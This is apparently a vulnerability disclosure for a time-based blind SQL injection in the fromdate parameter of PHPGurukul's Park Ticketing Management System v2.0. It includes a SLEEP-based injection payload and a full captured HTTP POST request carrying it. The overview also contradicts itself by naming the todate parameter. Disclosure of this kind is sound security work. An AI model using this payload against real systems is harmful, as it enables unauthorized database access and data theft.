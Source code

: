 # SQL Injection Vulnerability in Park Ticketing Management System (foreigner-bwdates-reports-details.php--fromdate)

## Overview
A SQL Injection vulnerability was discovered in the `foreigner-bwdates-reports-details.php` file of the **Park Ticketing Management System Project in PHP v2.0** by PHPGurukul. This vulnerability allows remote attackers to execute arbitrary SQL code via the `todate` parameter in a POST request.

### Affected Product Details

| **Field**               | **Details**                                                                 |
|-------------------------|----------------------------------------------------------------------------|
| Product Name            | Park Ticketing Management System Using PHP and MySQL                       |
| Vendor                  | PHPGurukul                                                                 |
| Affected Code File      | `foreigner-bwdates-reports-details.php`                                       |
| Affected Parameter      | `fromdate`                                                                   |
| Method                  | POST                                                                       |
| Type                    | Time-based blind SQL Injection                                             |
| Version                 | v2.0                                                                       |
| Official Website        | https://phpgurukul.com/park-ticketing-management-system-using-php-and-mysql/

---

## Steps to Reproduce
1. **Log in to the Admin Panel**  
   - Access the admin login page and enter valid credentials.
    ![image](https://github.com/baixiaobi/Park/blob/main/screenshot2/%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20250704163201.png)

2. **Navigate to the Report Section**  
   - Go to the "Report" section and select "Normal People Report."  
   - Choose any date range in the `fromdate` and `todate` input fields.
    ![image](https://github.com/baixiaobi/Park/blob/main/screenshot/%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20250704104910.png)
3. **Intercept the Request**  
   - Intercept the data packet and find the problematic parameter fromdate
    ![image](https://github.com/baixiaobi/Park/blob/main/screenshot/%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20250704104921.png)

4. **Confirm the Vulnerability**  
   - Forward the modified request and observe a 10-second delay in the response, confirming the time-based SQL injection.

   - Inject the following payload into the `fromdate` parameter:  
     ```sql
     ' AND (SELECT 7005 FROM (SELECT(SLEEP(10)))JmJX)-- QyUxp
     ```
   - ![image](https://github.com/baixiaobi/Park/blob/main/screenshot/%E5%BE%AE%E4%BF%A1%E6%88%AA%E5%9B%BE_20250704105021.png)
   
     attack payload    
```sql
    POST /Park-Ticketing-Management-System-Project/ptms/foreigner-bwdates-reports-details.php HTTP/1.1
Host: 127.0.0.1
Accept-Encoding: gzip, deflate, br, zstd
Origin: http://127.0.0.1
sec-ch-ua-platform: "Windows"
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
Referer: http://127.0.0.1/Park-Ticketing-Management-System-Project/ptms/between-dates-foreignerreports.php
Accept-Language: zh-CN,zh;q=0.9
Sec-Fetch-Site: same-origin
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
sec-ch-ua-mobile: ?0
Cookie: PHPSESSID=fn23r331lhk5gbe4nbqrsg821r
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Dest: document
Cache-Control: max-age=0
sec-ch-ua: "Google Chrome";v="137", "Chromium";v="137", "Not/A)Brand";v="24"
Content-Length: 45

fromdate=2025-07-04' AND (SELECT 7005 FROM (SELECT(SLEEP(10)))JmJX)-- QyUx&todate=2025-07-17&submit=
```
    


## Impact
- **Data Theft**: Unauthorized access to sensitive database data.  
- **Data Manipulation**: Alteration or deletion of critical data.  
- **Reconnaissance**: Enumeration of database structures for further attacks.  
- **Financial Loss**: Potential service disruption leading to monetary losses.  
- **Reputation Damage**: Loss of user trust due to breaches or downtime.  

---

## Recommended Mitigations
1. **Input Validation**: Sanitize and validate all user inputs.  
2. **Prepared Statements**: Use parameterized queries to prevent SQL injection.  
3. **Output Encoding**: Encode data before rendering it in the application.  
4. **Content Security Policy (CSP)**: Implement CSP to mitigate HTML injection risks.  

